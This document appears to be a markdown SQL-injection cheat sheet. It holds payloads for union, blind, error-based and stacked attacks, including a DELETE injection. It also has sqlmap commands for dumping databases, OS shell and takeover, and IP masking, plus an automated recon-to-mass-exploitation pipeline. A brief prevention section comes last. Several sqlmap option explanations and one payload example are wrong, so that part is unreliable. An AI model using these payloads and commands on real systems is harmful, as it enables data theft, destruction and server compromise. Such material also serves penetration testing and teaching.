

## SQL Injection

---
  
 
**SQL injection** is a type of attack that exploits vulnerable inputs within web applications to access, steal, or modify sensitive information from a database. There are different types of SQL injections:

 ### Union-Based Injection
 [--> More Info](https://portswigger.net/web-security/sql-injection/union-attacks) 
  
This type of SQL injection is where an attacker appends additional malicious SQL statements to an existing query to gain unauthorized access to a database.
An example of this type of attack would be: 
  
    SELECT * FROM users WHERE username = 'admin' UNION SELECT * FROM passwords

### Boolean-Based Injection

This type of SQL injection is used to alter the flow of a program by adding boolean evaluation conditions to the query. This can be used to bypass authentication mechanisms or even reveal information from the database.
An example of this type of attack would be:
        
    IF TRUE SELECT * FROM users WHERE username = ' or 1=1-- -

### Error-Based Injection
[--> More Info](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

This type of SQL injection occurs when the attacker is able to send invalid SQL statements to the database, causing the database to return an error which can be used to reveal information about the underlying database structure.
An example of this type of attack would be: 
    
    TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

### Blind Injection

[--> More Info](https://portswigger.net/web-security/sql-injection/blind)

This type of SQL injection is used when an attacker is not able to see the result of the query they are running. Instead, they are forced to guess the database structure and values using conditional statements. 

Exploiting blind SQL injection by triggering conditional responses:
 
    xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's 

### Stacked Query Injection

This type of SQL injection occurs when the attacker is able to execute multiple subsequent queries within a single request. This can allow attackers to gain access to multiple tables, or even to execute system commands.

User Input:

        1; DELETE FROM products
        
Payload:

        SELECT * FROM products WHERE productid=1; DELETE FROM products

---

## Enumeration

### Identifying vulnerable inputs
The first step of a SQL injection attack is locating vulnerable inputs that can be attacked. This can be done manually, by submitting user-supplied parameter values and observing how the application responds, or automating the process with tools such as sqlmap. 

### Exploiting vulnerable inputs
Once the vulnerable inputs have been identified, the next step is to exploit them. This is typically done by manipulating the user-supplied parameter values in order to generate a valid SQL query, or by directly entering malicious SQL commands. For example, if the application is susceptible to SQL injection, an attacker could enter a single quote (‘) character in an input field. This can be used to close off an existing SQL query, and inject additional SQL commands.

### Bypassing input validation
In some cases, applications can be hardened against SQL injection by validating user-supplied input, however attackers can still find ways to bypass the validation measures. This is typically accomplished by using SQL comments (‘–’) or whitespace characters (e.g. \t) to bypass the validation checks.

### Executing malicious SQL commands
Once the input validation has been bypassed, the attacker can proceed to executing malicious SQL commands. Common commands include SELECT, INSERT, and UPDATE, which are used to retrieve, modify, and delete data from the database. Attackers can also invoke stored procedures (e.g. xp_cmdshell) to run system commands on the server, with the privileges of the application.

## Payloads

---

### Resources

* [Payload-Box](https://github.com/payloadbox/sql-injection-payload-list)

* [Port-Swigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

* [Inviciti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)

### Bypassing Email Filter which leads to SQL Injection

🔗 Source :
[Dimaz Arno](https://dimazarno.medium.com/bypassing-email-filter-which-leads-to-sql-injection-e57bcbfc6b17)

### Blind Sql fresh payloads

    "0"XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR"Z"

---

## Sqlmap   

### General syntax: 
  
      sqlmap -u [target_URL] -p [parameter] [option]

### Basic options:
    
        --batch: Non-interactive mode
    
        --data: Used when submitting information via POST
    
        --cookie: Submit a cookie along with the request
    
        --threads: Number of threads to use

### Injection techniques: 
    
        --technique=BT: Blind boolean-based
    
        --technique=QT: Error-based
    
        --technique=EU: Error-based union query

### Enumeration options:
    
        --tables: List all database tables
    
        --columns: List all columns from specified database tables
    
        --dbs: List all databases
    
        --hostname: Display hostname of DBMS

### Database fingerprinting:
    
        --fingerprint: Fingerprint the DBMS

### Dumping options:
    
        --dump: Dump all data from a specific database table 
    
        --dump-all: Dump all databases

### Miscellaneous options:
    
        --flush-session: Flush session information
    
        --answers: Specify yes/no for questions
    
        --update: Update sqlmap

### Sqlmap Commands

---
  
Connect to a website where the URL points to a vulnerable web application which is backed by a MySQL server. It then retrieves the database names from the 'user' and 'pass' parameters given in the command.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --data="user=foo;pass=bar" --dbs 

---
  
Retrieve the tables present in the database specified in the URL given in the command, and then to dump the content of all the tables into the 'test' output file.

    sqlmap -u http://www.example.com/db.php?id=1 --tables -o test --dump

---
  
Crawl 2 levels of the website specified in the URL given in the command, looking for the parameter 'wp-api-token', and then retrieve the content of the 'users' table.

    sqlmap -u http://www.example.com/db.php?id=1 --crawl=2 --randomize-string='?wp-api-token' --table 'users'

---
  
Login with the 'martin' username, retrieve the content of the database specified in the URL given in the command and then to dump the content of all the tables into binary files.

    sqlmap -u http://www.example.com/db.php?id=1 --os-user='martin' --dump -b 

---
  
Analyze the html forms present in the website identified by the specified URL and then to follow redirects for 3 levels, using the experience techniques for exploiting each form.   
    
    sqlmap -u http://www.example.com/db.php?id=1 --forms --follow-redirect --level=3 --technique=E  

---
  
Perform an Operating System takeover, allowing it to read and write files on the remote system.

    sqlmap -u http://www.example.com/db.php?id=1 --os-pwn 

---
  
Retrieve the database schema of the database specified in the URL given in the command, using the X-Forwarded-For header to mask the client's IP.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --schema --header="X-Forwarded-For: 192.168.0.1" 

---
  
Query the database specified in the URL given in the command, executing the given SELECT statement, and then dumping the result of the query into a file.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --query "SELECT user FROM table WHERE id=1" --dump 

---
  
Identify the web application firewall present in the website specified in the URL given in the command, and then download the default page the web application serves. 

    sqlmap -u http://www.example.com/db.php?id=1 --identify-waf --dbms=MYSQL --download-page 

---
  
Establish an interactive shell between the remote client and the web application, allowing the remote user to execute OS commands on the remote target.  

    sqlmap -u http://www.example.com/db.php?id=1 --os-shell 

---

### Method

    subfinder -d target | tee -a domains

    cat domain | httpx | tee -a text.txt

    cat text.txt | waybackurls | tee -a urls 

    gf sqli urls >> sqli

    sqlmap -m sqli --dbs --batch

---

## Preventing SQL injection

The best way to protect against SQL injection is to never put user-supplied input directly into an SQL query. Instead, use parameterized queries, which escape potentially malicious characters, and use the appropriate data types for user-supplied input (e.g. numeric values should be validated as such).Furthermore, proper authentication and authorization should be implemented, to ensure that only users with the correct privileges can access sensitive resources.

Resources for SQL injection prevention:

 --> [Infosec Mozilla](https://infosec.mozilla.org/guidelines/web_security#web-security-cheat-sheet)

 --> [OWASP top 10](https://owasp.org/www-community/attacks/SQL_Injection)

 

---

